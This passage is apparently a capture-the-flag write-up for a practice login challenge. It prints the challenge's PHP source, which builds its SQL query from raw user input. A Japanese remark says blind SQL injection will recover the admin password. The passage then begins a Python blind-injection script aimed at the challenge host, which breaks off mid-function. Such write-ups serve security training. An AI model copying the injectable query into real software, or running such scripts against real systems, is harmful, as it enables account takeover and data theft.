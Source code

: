 ```txt
    
    if ($id!=='')
    {
        $db = new PDO('sqlite:database.db');
        $r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
        $login = $r && $r->fetch();
        if (!$login)
            $err = 'Login Failed';
    }
?><!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6</title>
  </head>
  <body>
    <?php if (!$login) { ?>
    <p>
      First, login as "admin".
    </p>
    <div style="font-weight:bold; color:red">
      <?php echo h($err); ?>
    </div>
    <form method="POST">
      <div>ID: <input type="text" name="id" value="<?php echo h($id); ?>"></div>
      <div>Pass: <input type="text" name="pass" value="<?php echo h($pass); ?>"></div>
      <div><input type="submit"></div>
    </form>
    <?php } else { ?>
    <p>
      Congratulations!<br>
      It's too easy?<br>
      Don't worry.<br>
      The flag is admin's password.<br>
      <br>
      Hint:<br>
    </p>
    <pre><?php echo h(file_get_contents('index.php')); ?></pre>
    <?php } ?>
  </body>
</html>
```
Sqliteを使っていることがわかる。Blindでadminのpasswordを特定する。  
```python
#!/usr/bin/env python3
# -*- coding:utf-8 -*-

import os
import requests
import urllib.parse

url = "http://ctfq.sweetduet.info:10080/~q6/"
cookie = "d8iuvjr50tjvrmaj2gf97ts6bl"
candidates = [chr(i) for i in range(48, 48+10)] + \
    [chr(i) for i in range(97, 97+26)] + \
    [chr(i) for i in range(65, 65+26)] + \
    ["."," ","-","+","_",":","<",">",";","'","\"","(",")","=","{","}","[","]","\\","|","/","@","$","!","?","&","#"]
headers= {'Cookie':'PHPSESSID='+cookie}

def attack(attack_sql):
    attack_url = url
    data = "id=" + urllib.parse.quote(attack_sql) + "&pass=" + urllib.parse.quote("pass")
```